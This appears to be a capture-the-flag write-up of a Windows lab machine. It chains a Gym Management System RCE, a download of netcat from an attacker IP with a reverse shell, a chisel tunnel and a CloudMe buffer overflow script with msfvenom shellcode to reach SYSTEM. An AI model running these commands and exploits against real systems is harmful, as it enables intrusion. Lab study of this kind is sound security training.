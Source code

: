 1, Recon
port scan 
	7680/tcp pando-pub
	8080/tcp http

web-content scan 
![](images/Pasted%20image%2020240906081926.png)
	/license `GNU GENERAL PUBLIC LICENSE` 
	/README.md would be interesting. `gym management system`
By searching the exploit-db, we found:
`Gym Management System 1.0 - Unauthenticated Remote Code Execution`
`https://github.com/0xConstant/Gym-Management-1.0-unauthenticated-RCE.git`

Then we can use this script to upload a blind shell and we can enumerate the file path or make a reverse shell.
In this place, we have known it was a Windows os-system, so we need to use `nc64.exe` to handle our reverse shell.

```
curl "http://10.10.10.198:8080/upload/test.php?cmd=powershell%20InvokeWebRequest%20-Uri%20http%3A%2F%2F10.10.14.65%2Fnc64.exe%20-
Outfile%20c%3A%5Cusers%5Cpublic%5Cnc.exe"

powershell InvokeWebRequest -Uri http://10.10.14.65:80/nc64.exe -Outfile C:\users\public\nc.exe
```

Or we can just use the exploit script
```
#blind shell
curl -o \programdata\nc.exe http://10.10.14.65/nc.exe
\programdata\nc.exe -e cmd 10.10.14.65 4444
```

Then we can get a stable reverse shell for us.

3, shell as SYSTEM

Checking the netstate shows two ports listening only on localhost. 3306 is MySQL, which makes sense for the PHP site and XAmpp stack. The other is 8888:
```
netstat -ano | findstr TCP | findstr ":0"
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       944
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       6476
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       448
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4884
```

I’ll grab the process ID (2820) and grep (or findstr) for i in the tasklist (the listening process id changes every minute so I’ll have to search quickly):
```
tasklist /v | findstr 4884
httpd.exe                     4884                            0        148 K Unknown         BUFF\shaun 
```

Let's continue to enumerate the directory of shaun.
There is a useful file `Tasks.bat` in the `C:\Users\shaun\Documents\Tasks.bat`
and `CloudMe_1112.exe` in the `C:\Users\shaun\Downloads\CloudMe_1112.exe`

```
type Tasks.bat
START C:/xampp/xampp_start.exe
```

When we use search the `CloudMe` exploits in `searchsploit`

```
searchsploit CloudMe                   
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)              | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)     | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)     | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)    | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Byp | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow ( | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow         | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt     | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP By | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow             | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP  | windows_x86-64/remote/44784.py
---------------------------------------------------- ---------------------------------
```

I think it would be version `1112` == `CloudMe 1.11.2`

Tunnel
To exploit this service, I’ll need a tunnel from my box to Buff (or I’d have to run the exploit from Buff, but Python isn’t typically installed on Windows). I’ll use my favorite tool for this, Chisel. I’ll use the same SMB share and copy the Windows binary to where I’m staging in \programdata.

Now I’ll run the Linux binary on Kali in server mode:
`chisel server -p 8000 --reverse`
Next, from Buff, I’ll run as a client:
`.\c.exe client 10.10.14.20:8000 R:8888:localhost:8888`

I can see my local box is listening on 8888:
```
netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp6       0      0 :::8000                 :::*                    LISTEN      95516/chisel        
tcp6       0      0 :::8888                 :::*                    LISTEN      95516/chisel
```

Update Exploit
It looks like the exploit is a very simple buffer overflow:
```
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload    = b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
payload   += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
payload   += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
payload   += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
payload   += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
payload   += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
payload   += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
payload   += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
payload   += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
payload   += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
payload   += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
payload   += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
payload   += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
payload   += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
payload   += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
payload   += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
payload   += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))       

buf = padding1 + EIP + NOPS + payload + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

Very simply, it opens a connect to the target on port 8888, it sends a buffer, and it’s done.

The buffer is made up of 1052 bytes of no-op (nop, padding), then the address of a push esp, ret gadget, some nops, the payload, and then some more filler.

Without looking at the binary, this suggests that the stack before and after user input is read looks like this:
![](images/Pasted%20image%2020240906103027.png)

Now when the function returns, it will go to to the gadget, which will push $esp to the stack (which will now be at the top of the nops before the payload), and then return, moving the instruction pointer, $eip, to the nops followed by the payload

The payload in the script by default looks to be the output of msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python. Given the four-byte addresses and references to ESP and EIP (as opposed to RSP and RIP), this is a 32-bit program.

I’ll use msfvenom to generate my own payload that will return a stageless (can catch with nc) reverse tcp shell:
`msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.65 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload`

I changed the payload type (and included LHOST and LPORT needed for this payload), and I used the -v payload to set the output payload variable name so I can just paste it into the script.

Now I just run the exploit through the tunnel with nc waiting (work with either legacy Python or Python3):
`python3 cloudme-bof.py `

Then we get the SYSTEM shell.
